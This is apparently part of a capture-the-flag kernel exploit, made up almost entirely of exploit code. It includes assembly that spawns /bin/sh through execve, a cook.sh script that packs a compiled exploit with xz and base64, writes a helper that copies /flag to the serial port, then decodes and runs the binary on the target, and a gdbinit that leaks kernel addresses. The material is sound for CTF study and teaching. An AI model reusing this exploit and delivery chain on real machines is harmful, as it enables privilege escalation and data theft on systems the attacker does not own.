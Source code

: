 ```assembler


shell:
	lea rdi, [rip + sh]
	xor esi, esi
	xor edx, edx
	jmp execve
sh:
	.asciz "/bin/sh"

userloop:
	jmp userloop
```

### cook.sh

```sh
#!/bin/sh
make || exit 1

echo 'echo "#!/bin/sh" > /tmp/x'
echo 'echo "cat /flag > /dev/ttyS0" >> /tmp/x'
echo 'chmod +x /tmp/x'

echo 'cd /tmp; base64 -d <<EOF | xz -d > a && chmod +x a && ./a'
XZ_DEFAULTS= xz -T09 < main | base64
echo 'EOF'
```

### gdbinit

```
b *0xffffffffc0000123 - 0x30
commands
	printf "[+] note: %016llx\n", $rax
end

b *0xffffffff814105f6
commands
	printf "[+] tty: %016llx\n", $rax
end
```
